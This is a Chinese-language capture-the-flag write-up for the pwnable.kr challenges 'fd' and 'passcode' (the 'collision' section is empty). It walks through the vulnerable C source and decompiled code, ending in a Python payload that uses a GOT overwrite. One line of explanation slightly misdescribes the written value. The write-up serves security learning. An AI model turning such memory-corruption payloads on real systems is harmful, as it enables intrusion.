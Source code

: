 # Pwnable.kr


# pwnable.kr writeup

## 1 fd
文件描述符(file descricptor)
>维基百科：文件描述符在形式上是一个非负整数。实际上，它是一个索引值，指向内核为每一个进程所维护的该进程打开文件的记录表。当程序打开一个现有文件或者创建一个新文件时，内核向进程返回一个文件描述符。在程序设计中，一些涉及底层的程序编写往往会围绕着文件描述符展开。

习惯上 标准输入(stdin)为0, 标准输出(stdout)为1, 标准错误(stderr)为2.
```c
//fd.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
    if(argc<2){
        printf("pass argv[1] a number\n");
        return 0;
    }
    int fd = atoi( argv[1] ) - 0x1234;
    int len = 0;
    len = read(fd, buf, 32);
    if(!strcmp("LETMEWIN\n", buf)){
        printf("good job :)\n");
        system("/bin/cat flag");
        exit(0);
    }
    printf("learn about Linux file IO\n");
    return 0;
}
```
得到flag的关键在于如歌通过第二个if语句, 也就是如何让buf=LETMEMIN
可以看到read从fd中读入32个字节为buf赋值, 如果我们想控制buf的值就要控制fd中的内容, 那么只要让fd=0, 再向标准输入(从命令行直接输入)中输入LETMEWIN就可以了.
注意到fd在此处赋值:
```c
int fd = atoi( argv[1] ) - 0x1234;
```
其中atoi是将字符串转化为整数的函数
```c
int main(int argc, char* argv[], char* envp[]){
```
可以看到argv[]是main函数的一个参数, 而main函数的参数都是程序运行时在命令行输入的, argc代表输入参数的个数(第一个参数是程序路径), argv则存储着指向这些参数的指针. envp存储指向环境变量的指针, 此处没用到.

例如运行程序fd
```
./fd 4660
```
此时argc值为2, 而argv[0] = "./fd", argv[1] = "4660"

atoi不能转化16进制数, 所以我们手动转换0x1234, 它的十进制表示是4660
这样我们就可以让fd = 0, 程序等待从stdin中读取字符
我们再向命令行中输入LETMEWIN, 即可得到flag
## 2 collision


## 5 passcode
```c
#include <stdio.h>

#include <stdlib.h>

  

void login(){

        int passcode1;

        int passcode2;

  

        printf("enter passcode1 : ");

        scanf("%d", passcode1);

        fflush(stdin);

  

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)

        printf("enter passcode2 : ");

        scanf("%d", passcode2);

  

        printf("checking...\n");

        if(passcode1==338150 && passcode2==13371337){

                printf("Login OK!\n");

                system("/bin/cat flag");

        }

        else{

                printf("Login Failed!\n");

                exit(0);

        }

}

  

void welcome(){

        char name[100];

        printf("enter you name : ");

        scanf("%100s", name);

        printf("Welcome %s!\n", name);

}

  

int main(){

        printf("Toddler's Secure Login System 1.0 beta.\n");

  

        welcome();

        login();

  

        // something after login...

        printf("Now I can safely trust you that you have credential :)\n");

        return 0;

}
```
容易注意到login函数中这句 
```c
scanf("%d", passcode1);
```
本应该为
```c
scanf("%d", &passcode1);
```
也就是说scanf本该向passcode1所在地址写入内容, 却变成了将passcode1中存入的数作为地址, 向其写入内容. 这给了我们可乘之机, 如果能够覆盖passcode1的内容, 就可以向这个地址写入内容. 
那么如何修改passcode1呢? 自然我们要看在其之前执行的welcome函数, 它读入了100个字符. 
用IDA反编译一下 
```c
int login()
{
  int v1; // [esp+18h] [ebp-10h]
  int v2; // [esp+1Ch] [ebp-Ch]

  printf("enter passcode1 : ");
  __isoc99_scanf("%d", v1);
  fflush(stdin);
  printf("enter passcode2 : ");
  __isoc99_scanf("%d", v2);
  puts("checking...");
  if ( v1 != 338150 || v2 != 13371337 )
  {
    puts("Login Failed!");
    exit(0);
  }
  puts("Login OK!");
  return system("/bin/cat flag");
}

unsigned int welcome()
{
  char v1[100]; // [esp+18h] [ebp-70h] BYREF
  unsigned int v2; // [esp+7Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  printf("enter you name : ");
  __isoc99_scanf("%100s", v1);
  printf("Welcome %s!\n", v1);
  return __readgsdword(0x14u) ^ v2;
}
```
由于welcome和login紧挨着先后执行, 那么代表栈底的ebp应该没有改变. login中的v1即passcode1在ebp-10h的位置, welcome中的v1即name在ebp-70h的位置, 70h-10h = 60h = 96. 也就是他们位置相差96字节, 而我们可以输入100个字节, 这多出的4个字节就正好可以覆盖passcode1. 如果把passcode1覆盖成printf函数的GOT,再在scanf向passcode1内的地址, 即我们覆盖的printf的GOT写入时输入system的GOT, 就可以将即将执行的printf变成system("/bin/cat flag")这个指令了.
在IDA里找到他们: 
```text
.plt:08048420
.plt:08048420 ; =============== S U B R O U T I N E =======================================
.plt:08048420
.plt:08048420 ; Attributes: thunk
.plt:08048420
.plt:08048420 ; int printf(const char *format, ...)
.plt:08048420 _printf         proc near               ; CODE XREF: login+E↓p
.plt:08048420                                         ; login+3C↓p ...
.plt:08048420
.plt:08048420 format          = dword ptr  4
.plt:08048420
.plt:08048420                 jmp     ds:off_804A000
.plt:08048420 _printf         endp
.plt:08048420
```
```text
.plt:08048460 ; =============== S U B R O U T I N E =======================================
.plt:08048460
.plt:08048460 ; Attributes: thunk
.plt:08048460
.plt:08048460 ; int system(const char *command)
.plt:08048460 _system         proc near               ; CODE XREF: login+86↓p
.plt:08048460
.plt:08048460 command         = dword ptr  4
.plt:08048460
.plt:08048460                 jmp     ds:off_804A010
.plt:08048460 _system         endp
.plt:08048460
```
### 实现:
```python
python -c 'print "A"*96+"\x00\xa0\x04\x08"+"134514147\n"' | ./passcode

```

